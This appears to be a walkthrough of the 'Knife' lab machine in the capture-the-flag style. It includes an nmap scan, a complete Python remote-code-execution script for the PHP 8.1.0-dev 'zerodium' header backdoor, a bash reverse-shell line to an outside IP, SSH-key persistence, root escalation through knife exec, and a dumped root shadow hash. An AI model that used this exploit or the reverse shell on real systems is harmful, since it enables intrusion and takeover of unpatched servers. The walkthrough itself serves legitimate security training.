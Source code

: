 # Knife

![Untitled](./Knife/Untitled.png)

Nmap scan to discover active ports and service versions:

```python
# Nmap 7.91 scan initiated Sun May 23 00:14:49 2021 as: nmap -sV -A -o nmap.scan 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 23 00:15:18 2021 -- 1 IP address (1 host up) scanned in 29.68 seconds
```

I search for php version and i found a backdoor in that version: The name of backdoor is zerodium

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Consists in pass other user agent with more T, so it returns commands for us.

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%201.png](./Knife/Untitled%201.png)

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%202.png](./Knife//Untitled%202.png)

So now we have to get a shell using the backdoor. 

```python
zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
```

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%203.png](./Knife/Untitled%203.png)

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%204.png](./Knife/Untitled%204.png)

For a better shell i put my SSH key in authorized keys.

Create a script.rb to run and the knife exec say to you type the script to run, so execute te command and get a root session.

```python
exec("/bin/bash")
```

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%205.png](./Knife/Untitled%205.png)

```python
root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
```